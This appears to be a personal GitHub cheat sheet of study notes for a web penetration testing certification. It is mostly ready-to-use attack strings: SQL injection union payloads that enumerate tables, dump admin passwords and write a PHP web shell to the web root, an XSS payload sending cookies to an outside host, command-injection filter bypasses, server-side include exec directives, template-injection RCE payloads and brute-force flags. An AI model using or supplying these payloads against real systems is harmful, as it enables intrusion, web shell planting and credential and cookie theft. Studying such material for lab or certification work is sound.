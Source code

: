 # CBBH
Stuff for CBBH


  JavaScript Deobsfucation - Tools
    
    https://beautifier.io/
    http://www.jsnice.org/


  Intro to MySQL

    Connect to database
    sudo service mysql start
    
    mysql -h 94.237.62.195 -P 39097 -u root --password
    -h : for host/target
    -P : for custom port
    -u : for user
    --password : for password
  
    Find stuff with queries
    
    select * from employees where first_name LIKE 'Bar%' AND hire_date='1990-01-01';
    LIKE : You may use when searching for a substring in string (i.e Bar = Barton).
    % : Starts with (used in mysql)

    ')+or+id=4--+-

    Database enumeration

    #Get it without line breaking
    '+union+select+1,group_concat(table_name),3,4+from+information_schema.tables--+-

    #Get it nicier
    '+union+select+1,table_schema,table_name,4,5+from+information_schema.tables--+-
    
    #Writing files
    '+union+select+null,null,null,"<?php+system($_REQUEST['cmd']);?>"+into+outfile+"/var/www/html/blah2.php"--+-

    #Get data from whithin another database
    '+union+select+1,username,password,4,5+from+backup.admin_bk--+-

  Cross-Site Scripting

    #When creating a phishing form the submit button has to be just like so
    <input type="submit" name="submit" value="login">

    #That's a way to remove unanted html stuff from the page [gotta wrap it between script tags]
    document.getElementById("id-here").remove();


    #To stealk cookies
    "><img src=x onerror=this.src="http://ip/?c"+document.cookie;>

  SQLmap

    ' , ; -- /* */
    
    ##TIP: IF YOU CAN FIND BOUNDARIES, TRY TO COUNT THE NUMBER OF COLUMNS AND SPECIFY IT IN SQLMAP
    
    #Techniques and their meaning
    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries

    #To parse erros and see the response
    --parse-errors

    #Level/Risk
    Risk: Might cause database entry loss or DoS (Denial of Service) [1-3]
    Level: Extends vectors and boundaries (i.e the lower the expectancy, the higher the level) [1-5]

    #To display the payloads
    -v 3 [verbose level 3]

    #To provide a certain number of cols
    --union-cols=1337

    #Boundaries
    Once you've found a specific prefix, do not forget to add the apostrophe ' to it
    --prefix="<change-here>"
    --suffix="<change-here>"

    #Search function
    --search 
    -C: column
    -T: table
    -D: database

    #Handling csrf token
    ##NOTE: THE PROPER WAY TO HANDLE THIS KINDA TOKEN IS BY, PASSING THEM WHEREVER THEY APPEAR (e.g cookie/body) AND USE THE FLAG --csrf-token WITH THE NAME OF THE PARAM THAT HOLDS THE TOKEN
  
  Command Injection

    ##NOTE: If slash or backslash is blacklisted, you may use environment variable that have these chars
    <LINUX>
    ${PATH:0:1} - Uses the slash at the $PATH variable
    ${LS_COLORS:10:1} - Uses tha semi-colon at the $LS_COLORS variable

    <WINDOWS>
    echo %HOMEPATH:~6,-11%

    #You can actaully use environment variables inside of bash brace expension
    {ls,${PATH:0:1}home}
  
    #Blacklisted commands doesn't seem to work inside {}
    #This one is nicier
    bash<<<$(base64%09-d<<<$payload-here$)

    
  Injection Operator | Injection Character	| URL-Encoded Character| Executed Command
  |---|---|---|---|
  |Semicolon | ; |	%3b	| Both
  |New Line |	\\n | %0a | Both
  |Background | & | %26 | Both (second output generally shown first)
  |Pipe |	\| 	| %7c | Both (only second output is shown)
  |AND |	&& | %26%26 | Both (only if first succeeds)
  |OR | \|\|	| %7c%7c	| Second (only if first fails)
  |Sub-Shell |	\`\` | %60%60 |	Both (Linux-only)
  |Sub-Shell | $() | %24%28%29 | Both (Linux-only)

  Server-Side Attacks

    #SSI cheat sheet

    // Date
    <!--#echo var="DATE_LOCAL" -->
    
    // Modification date of a file
    <!--#flastmod file="index.html" -->
    
    // CGI Program results
    <!--#include virtual="/cgi-bin/counter.pl" -->
    
    // Including a footer
    <!--#include virtual="/footer.html" -->
    
    // Executing commands
    <!--#exec cmd="ls" -->
    
    // Setting variables
    <!--#set var="name" value="Rich" -->
    
    // Including virtual files (same directory)
    <!--#include virtual="file_to_include.html" -->
    
    // Including files (same directory)
    <!--#include file="file_to_include.html" -->
    
    // Print all variables
    <!--#printenv -->

    #SSTI
    
    Cobalt SSTI payload - ${{<%[%'"}}%\.
    
    Tornado RCE
    {% import os %}{{ os.popen("id").read() }}

    Twig RCE
    {{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("env")}}

    #Jinja1 RCE
    {{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}

  LOGIN BRUTE FORCING

    #Some hydra notes
    -u : by default Hydra checks all passwords for one login and then tries the next login. This option loops around the passwords, so the first password is tried on all logins,  then
         the next password.
    -f : exit after the first found login/password pair

    
    
